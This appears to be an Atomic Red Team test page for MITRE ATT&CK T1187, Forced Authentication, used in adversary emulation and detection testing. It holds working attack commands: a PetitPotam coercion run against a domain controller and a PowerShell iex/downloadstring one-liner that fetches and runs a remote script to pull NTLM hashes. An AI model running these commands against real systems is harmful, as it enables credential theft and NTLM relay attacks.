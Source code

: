 # T1187 - Forced Authentication
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1187)
<blockquote>Adversaries may gather credential material by invoking or forcing a user to automatically provide authentication information through a mechanism in which they can intercept.

The Server Message Block (SMB) protocol is commonly used in Windows networks for authentication and communication between systems for access to resources and file sharing. When a Windows system attempts to connect to an SMB resource it will automatically attempt to authenticate and send credential information for the current user to the remote system. (Citation: Wikipedia Server Message Block) This behavior is typical in enterprise environments so that users do not need to enter credentials to access network resources.

Web Distributed Authoring and Versioning (WebDAV) is also typically used by Windows systems as a backup protocol when SMB is blocked or fails. WebDAV is an extension of HTTP and will typically operate over TCP ports 80 and 443. (Citation: Didier Stevens WebDAV Traffic) (Citation: Microsoft Managing WebDAV Security)

Adversaries may take advantage of this behavior to gain access to user account hashes through forced SMB/WebDAV authentication. An adversary can send an attachment to a user through spearphishing that contains a resource link to an external server controlled by the adversary (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)), or place a specially crafted file on navigation path for privileged accounts (e.g. .SCF file placed on desktop) or on a publicly accessible share to be accessed by victim(s). When the user's system accesses the untrusted resource it will attempt authentication and send information, including the user's hashed credentials, over SMB to the adversary controlled server. (Citation: GitHub Hashjacking) With access to the credential hash, an adversary can perform off-line [Brute Force](https://attack.mitre.org/techniques/T1110) cracking to gain access to plaintext credentials. (Citation: Cylance Redirect to SMB)

There are several different ways this can occur. (Citation: Osanda Stealing NetNTLM Hashes) Some specifics from in-the-wild use include:

* A spearphishing attachment containing a document with a resource that is automatically loaded when the document is opened (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)). The document can include, for example, a request similar to <code>file[:]//[remote address]/Normal.dotm</code> to trigger the SMB request. (Citation: US-CERT APT Energy Oct 2017)
* A modified .LNK or .SCF file with the icon filename pointing to an external reference such as <code>\\[remote address]\pic.png</code> that will force the system to load the resource when the icon is rendered to repeatedly gather credentials. (Citation: US-CERT APT Energy Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PetitPotam](#atomic-test-1---petitpotam)

- [Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS](#atomic-test-2---winpwn---powersharppack---retrieving-ntlm-hashes-without-touching-lsass)


<br/>

## Atomic Test #1 - PetitPotam
This module runs the Windows executable of PetitPotam in order to coerce authentication for a remote system.

**Supported Platforms:** Windows


**auto_generated_guid:** 485ce873-2e65-4706-9c7e-ae3ab9e14213





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| captureServerIP | Computer IP to use to receive the authentication (ex. attacker machine used for NTLM relay) | string | 10.0.0.3|
| targetServerIP | Computer IP to force authentication from (ex. domain controller) | string | 10.0.0.2|
| efsApi | EFS API to use to coerce authentication | integer | 1|
| petitpotam_path | PetitPotam Windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PetitPotam.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
& "#{petitpotam_path}" #{captureServerIP} #{targetServerIP} #{efsApi}
Write-Host "End of PetitPotam attack"
```




#### Dependencies:  Run with `powershell`!
##### Description: PetitPotam binary must exist on disk and at specified location (#{petitpotam_path}).
And the computer must be domain joined (implicit authentication).
##### Check Prereq Commands:
```powershell
if (Test-Path "#{petitpotam_path}") { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/topotam/PetitPotam/blob/2ae559f938e67d0cd59c5afcaac67672b9ef2981/PetitPotam.exe?raw=true" -OutFile "#{petitpotam_path}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS
PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7f06b25c-799e-40f1-89db-999c9cc84317






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Internalmonologue.ps1')
Invoke-Internalmonologue -command "-Downgrade true -impersonate true -restore true"
```






<br/>
